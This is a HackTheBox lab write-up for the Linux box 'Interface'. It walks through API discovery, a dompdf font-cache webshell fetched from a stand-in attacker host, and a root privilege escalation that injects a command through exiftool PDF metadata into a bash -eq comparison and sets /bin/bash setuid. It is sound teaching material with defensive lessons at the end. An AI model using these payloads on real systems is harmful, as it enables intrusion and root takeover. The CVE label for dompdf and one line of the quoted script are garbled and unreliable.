



<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 18.04), **Difficulty:** Medium, **Released:** 2023-08-19, **IP:** `10.10.11.200` , `interface.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Main site is "Site Maintenance". A response header leaks the vhost **`prd.m.rendering-api.interface.htb`**.
2. That host is a JSON API that only answers `POST`. Brute force it to find `/api/html2pdf`, then fuzz parameters to find `html`.
3. `/api/html2pdf` renders attacker HTML with **dompdf** (a version vulnerable to the font cache poisoning RCE, CVE-2021-3129 family). Host a PHP payload disguised as a font, reference it with `@font-face`, then request the predictable cached font path. Shell as `www-data`.
4. A root cron runs `/usr/local/sbin/cleancache.sh`, which reads the `Producer` PDF metadata with `exiftool` and compares it with bash `[ "$x" -eq "dompdf" ]`. The `-eq` forces **arithmetic evaluation** of the string, so a `Producer` of `a[$(command)]` runs `command` as root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| (no credentials, both steps are code execution) | |
| `user.txt` | `/home/dev/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Interface is two code execution bugs with no passwords in between. The foothold teaches **finding an API that is not linked anywhere**: the vhost only appears in a `X-...` response header, and once you have it the endpoint and its parameter both have to be brute forced with `POST`. The dompdf RCE is a well known chain (write a PHP file with a `.ttf`-ish name into the font cache via `@font-face`, then hit the cache path). The privesc is a genuinely clever bash footgun: **`[ "$string" -eq N ]` evaluates the string arithmetically**, and bash arithmetic runs `$(...)` command substitution inside array subscripts, so controlling a string that reaches `-eq` is command injection as whoever runs the script.

Related "vhost hidden in headers/JS" boxes: [Interface](/writeups/hackthebox/linux/medium/interface/) is the reference. Related dompdf / PDF rendering: [Stocker](/writeups/hackthebox/linux/easy/stocker/), [Bagel](/writeups/hackthebox/linux/medium/bagel/). Related "root cron runs a tool on attacker files": [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/) (binwalk), [Titanic](/writeups/hackthebox/linux/easy/titanic/) (ImageMagick), [Inject](/writeups/hackthebox/linux/easy/inject/) (ansible).

---

## Full Walkthrough

### Reconnaissance

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site Maintenance
```

The landing page itself was a dead end, a static "Site Maintenance" notice with nothing to interact with, so I let Burp sit in the background proxying every request while I clicked around. It paid off: inspecting the traffic revealed a subdomain referenced in a response header that never appears anywhere in the page's visible HTML or JS.



```
prd.m.rendering-api.interface.htb
```



Adding it to `/etc/hosts` returns a bare "file not found". No HTML, no headers hinting at a framework, just a flat error, which told me this was an API rather than a normal site.

### API enumeration

A `GET` against the root came back empty, but that is not unusual for an API that only exposes `POST` endpoints, so I switched my content discovery tooling over to `-m post` rather than assuming the host was empty:

```bash
feroxbuster -u http://prd.m.rendering-api.interface.htb/api/ \
  -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt \
  -t 15 -x html,php,py,txt,js -k -m post
```

Finds `/api/html2pdf`. Fuzz for the JSON parameter:

```bash
ffuf -w /usr/share/SecLists/Discovery/Web-Content/raft-small-directories.txt -c \
  -X POST -d '{"FUZZ":"FUZZ"}' -H 'Content-Type: application/json' \
  -u http://prd.m.rendering-api.interface.htb/api/html2pdf -fs 0
```

```console
html   [Status: 200, ...]
```

The endpoint takes `{"html": "<markup>"}`.



### Foothold, dompdf font cache RCE

<div class="callout callout-note">

**The dompdf RCE (CVE-2021-3129 family)**

Old dompdf with `$isRemoteEnabled = true` will fetch a font referenced by `@font-face { src: url(...) }`, and it caches the downloaded file on disk **keeping the original extension** at a predictable path like `/dompdf/lib/fonts/<family>_normal_<md5(url)>.php`. So you:
1. Host `exploit.php` (a webshell) and a `.css` that does `@font-face{ font-family:'x'; src:url('http://you/exploit.php'); }`.
2. Send `{"html":"<link rel=stylesheet href='http://you/exploit.css'>"}` to `/api/html2pdf`. dompdf downloads `exploit.php` into its font cache as `x_normal_<hash>.php`.
3. Request `http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/x_normal_<hash>.php` (compute `<hash>` = `md5("http://you/exploit.php")`). The webshell runs as `www-data`.

The [positive-security/dompdf-rce](https://github.com/positive-security/dompdf-rce) repo automates the payload files. I used it to upgrade the webshell to a proper reverse shell as `www-data`, then `su dev` (or just read `dev`'s files directly) for `user.txt`.

</div>

### Privilege escalation, a bash footgun in cleancache.sh

Landing on the box as `www-data` with no obvious `sudo -l` win, I fell back on my usual habit of running `pspy` before doing anything else. It showed a root cron firing `/usr/local/sbin/cleancache.sh` roughly once a minute, so I pulled a copy to read:

```bash
#!/bin/bash
cache_dir="/tmp/"
for cache_file in "$cache_dir"*; do
  if [ -f "$cache_file" ]; then
    meta_producer=$(exiftool -s -s -s -Producer "$cache_file")
    if **$meta_producer == "dompdf"** || [ "$meta_producer" -eq "dompdf" ] 2>/dev/null; then
      rm "$cache_file"
    fi
  fi
done
```

The script reads the `Producer` metadata field off every file sitting in `/tmp` with `exiftool`, and if that field looks like it came from dompdf it deletes the file, tidy housekeeping for a cache directory. The bug is in the second half of that condition: `[ "$meta_producer" -eq "dompdf" ]`. `test -eq` forces **arithmetic evaluation** of both operands rather than a string compare, and bash arithmetic evaluates `$(...)` command substitution inside array subscripts. `exiftool` metadata is attacker controlled, and I already had code execution as `www-data` from the dompdf chain, so I just needed a file in `/tmp` whose `Producer` field was a malicious array expression:

```bash
# on the box as www-data
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /tmp/x.sh && chmod +x /tmp/x.sh
printf '%%PDF-1.4\n' > /tmp/evil.pdf         # minimal pdf so exiftool reads it
exiftool -Producer='a[$(/tmp/x.sh)]' /tmp/evil.pdf
# wait for the cron
ls -l /bin/bash        # -rwsr-xr-x
/bin/bash -p
cat /root/root.txt
```

Once the cron fired against `evil.pdf`, the `-eq` comparison tried to evaluate `a[$(/tmp/x.sh)]` as an arithmetic expression, which meant running `/tmp/x.sh` as root before it ever got around to the actual comparison. That set the setuid bit on `/bin/bash`, and `/bin/bash -p` dropped me into a root shell. `cat /root/root.txt` returns the 32-character flag for this instance.

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/dev/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

- **APIs leak in headers and JS.** Grep every response for `.htb`, internal hostnames, and `X-` headers before assuming there is nothing else.
- **Patch dompdf** and set `$isRemoteEnabled = false`. Rendering untrusted HTML with a library that fetches and caches remote resources is RCE.
- **Never use `[ "$x" -eq "$y" ]` on untrusted strings.** Use `**"$x" == "$y"**` for string comparison. `-eq` is arithmetic and bash arithmetic executes `$(...)`.
- **Root crons that run tools on files in world writable directories** (`/tmp`, upload dirs) are a standing privesc. Move the work to a private dir or run it as an unprivileged user.
- **`exiftool` metadata is attacker controlled.** Treat every field as hostile input.

---

## Related Writeups

- **Hidden API / vhost discovery:** [Heal](/writeups/hackthebox/linux/medium/heal/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [TwoMillion](/writeups/hackthebox/linux/easy/twomillion/)
- **dompdf / PDF rendering to RCE or SSRF:** [Stocker](/writeups/hackthebox/linux/easy/stocker/), [Bagel](/writeups/hackthebox/linux/medium/bagel/)
- **Root cron processes attacker files:** [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Inject](/writeups/hackthebox/linux/easy/inject/)
- **Bash / shell injection footguns:** [Previse](/writeups/hackthebox/linux/easy/previse/), [Headless](/writeups/hackthebox/linux/medium/headless/)

## References

- positive-security dompdf RCE <https://github.com/positive-security/dompdf-rce>
- Interface writeup (arz101) <https://arz101.medium.com/hackthebox-interface-a3f249cc2624>
- Interface writeup (D4nt3) <https://andresruizzzzz.github.io/blog/htb-writeup-interface/>
- Bash test `-eq` arithmetic injection <https://linuxpip.org/bash-test-eq-string/>
- Final privilege escalation steps cross-referenced against public writeups for this box.
